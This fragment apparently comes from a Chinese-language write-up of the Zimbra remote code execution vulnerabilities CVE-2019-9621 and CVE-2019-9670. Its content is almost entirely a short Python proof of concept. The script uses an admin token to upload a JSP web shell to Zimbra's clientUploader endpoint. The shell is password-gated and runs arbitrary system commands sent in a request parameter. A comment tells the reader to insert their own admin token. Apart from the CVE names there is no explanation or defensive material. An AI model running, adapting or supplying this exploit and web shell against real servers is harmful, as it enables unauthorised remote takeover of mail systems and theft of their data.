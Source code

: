![](./resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId34.png)

**简易poc**

    import requests

    file= {
    'filename1':(None,"whocare",None),
    'clientFile':("sunian.jsp",r'<%if("023".equals(request.getParameter("pwd"))){java.io.InputStream in=Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b));}out.print("</pre>");}%>',"text/plain"), 
    'requestId':(None,"12",None),
    }
    headers ={ 
    "Cookie":"ZM_ADMIN_AUTH_TOKEN=0_eb68a2a147c98c6d0c2257d7638c4f1256493b28_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313539323733343831303035313b61646d696e3d313a313b747970653d363a7a696d6272613b7469643d393a3433323433373532323b",#改成自己的admin_token
    "Host":"foo:7071"
    }
    r=requests.post("https://192.168.37.137:7071/service/extension/clientUploader/upload",files=file,headers=headers,verify=False)    
    print(r.text)

![2.png](./resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId35.png)
